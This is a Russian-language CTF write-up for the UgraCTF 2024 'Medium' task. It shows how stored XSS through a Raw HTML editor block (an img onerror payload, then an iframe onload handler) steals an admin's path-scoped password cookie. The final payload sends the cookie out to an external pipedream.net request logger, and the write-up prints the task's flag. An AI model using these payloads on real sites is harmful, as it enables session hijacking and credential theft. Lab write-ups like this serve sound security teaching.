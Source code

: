 # Medium: Write-up

Заходим на сайт и видим одну статью с разбором задания **Secure Vault**. Разбор выглядит как что-то, нагенерированное ChatGPT:

![Разбор](writeup-top.png)

В условии задания Medium сказано, что его флаг уже использовался ранее; по-видимому, нужно просто заслать флаг от Secure Vault.

К сожалению, сделать это сложно, потому что в какой-то момент разбор обрывается так:

![🔒 Продолжение статьи доступно только по платной подписке. Свяжитесь с автором для получения доступа.](writeup/locked.png)

Получается, нужно как-то обойти проверку на подписку.

Чтобы понять, как эта проверка реализована, создадим свою статью с платной подпиской.

![Статья](writeup/article-owner.png)

Снизу справа есть две кнопки, генерирующие:

- Публичную ссылку: https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/mkk4e2kAK9NiguilVSG3gw/
- Приватную ссылку: https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/mkk4e2kAK9NiguilVSG3gw/?password=olBIamGoMJoDTyQFkTSyHg

Публичная ссылка в точности совпадает с той, по которой мы создаем или редактируем статью. При этом сайт должен как-то понимать, кто его открывает, потому что при открытии этой ссылки в режиме инкогнито получаем следующее:

![Статья](writeup/article-public.png)

Поищем куки:

![Cookies](writeup/cookie.png)

Если создать еще одну статью, сервер создаст еще одну куку `password` с другим значением и другим параметром `path`. Получается, у каждой статьи есть свой пароль, позволяющий ее редактировать, и сервер сравнивает с ним переданную куку `password`. Поскольку у каждой куки `password` свой параметр `path`, при открытии статьи на сервер передается только пароль к этой статье.

Пароль в куках не совпадает с паролем в приватной ссылке. Действительно, если открыть приватную ссылку в режиме инкогнито, то произойдет установка куки и переадресация, и мы увидим следующую картину:

![Статья](writeup/article-private.png)

В условии сказано, что нас просят выложить анекдоты, а владелец сайта, по-видимому, их прочитает. Итак, наша задача -- каким-то образом вытащить куку `password` от страницы с разбором, когда автор (или кто-то еще, у кого есть приватная ссылка на статью с разбором) зайдет пойдет читать наши анекдоты.

В коде страницы видим:

```javascript
class PatchedRawTool extends RawTool {
	render() {
		const wrapper = super.render();
		if (this.readOnly) {
			const div = document.createElement("div");
			div.innerHTML = this.data.html;
			wrapper.appendChild(div);
			this.textarea.hidden = true;
		} else {
			this.textarea.addEventListener("keydown", e => {
				// Make backspace work correctly
				if (e.key === "Backspace") {
					e.stopPropagation();
				}
			})
		}
		return wrapper;
	}
}
```

Получается, для запуска JavaScript-кода на своей странице можно воспользоваться контейнером "Raw HTML" в редакторе. При открытии страницы без прав редактирования (т.е. по публичной или приватной ссылке) HTML вставится через тег `innerHTML`.

Попробуем написать простейший эксплоит:

![Эксплоит](writeup/exploit1-owner.png)

Откроем в режиме инкогнито, и...

![Эксплоит](writeup/exploit1-public.png)

Ничего не произошло! При этом в DevTools видим, что тег `<script>` вставился:

![DevTools](writeup/exploit1-devtools.png)

Почему же он не исполнился? Ответ можно найти, например, [на StackOverflow](https://stackoverflow.com/questions/1197575/can-scripts-be-inserted-with-innerhtml). Содержимое тегов `<script>` не исполняется, если тег был вставлен через `innerHTML`. В ответах можно найти способ тем не менее добиться XSS через тег `<img>`:

```html
<img src="x" onerror="alert(1);">
```

Такой эксплоит уже срабатывает:

![Эксплоит](writeup/exploit2-owner.png)

![Эксплоит](writeup/exploit2-public.png)

Теперь нужно придумать, как вытащить куку с другим значением `path`. Ответ на этот вопрос тоже находится [на StackOverflow](https://stackoverflow.com/questions/945862/retrieve-a-cookie-from-a-different-path). Предлагается создать тег `<iframe>` с `src`, ссылающимся на другую страницу. Заодно можно и воспользоваться обработчиком `onload` у `<iframe>`.

```html
<iframe src="https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/y4urwkEjcLxvz9WB/" onload="alert(this.contentDocument.cookie);">
```

При локальном запуске видим пустой `alert`, что, в общем-то, разумно. У автора при этом должны отобразиться куки.

Осталось понять, как передать эти куки себе. Для этого можно воспользоваться любым онлайн-сервисом, который позволяет принимать HTTP-запросы и логировать их. Я, например, обычно пользуюсь [pipedream.com](https://pipedream.com/requestbin/):

![pipedream](writeup/pipedream1.png)

При открытии страницы по ссылке приходит событие:

![pipedream](writeup/pipedream2.png)

Настроим эксплоит так, чтобы он автоматически присылал на эту ссылку куки:

```html
<iframe src="https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/y4urwkEjcLxvz9WB/" onload="fetch(`https://eohtssrnoxidmb8.m.pipedream.net/?${this.contentDocument.cookie}`);">
```

Осталось попробовать самим и подождать, пока на страницу зайдет админ:

![pipedream](writeup/pipedream3.png)

Установим эту куку себе, самостоятельно сконструировав URL: https://medium.s.2024.ugractf.ru/jmasxqhy8z3072h1/y4urwkEjcLxvz9WB/?password=kLUMhULhczGL4hkx. Вот и флаг:

![Разбор](writeup/writeup-top.png)

Флаг: **ugra_secure_vault_unlocked_0mbs0t30i787**
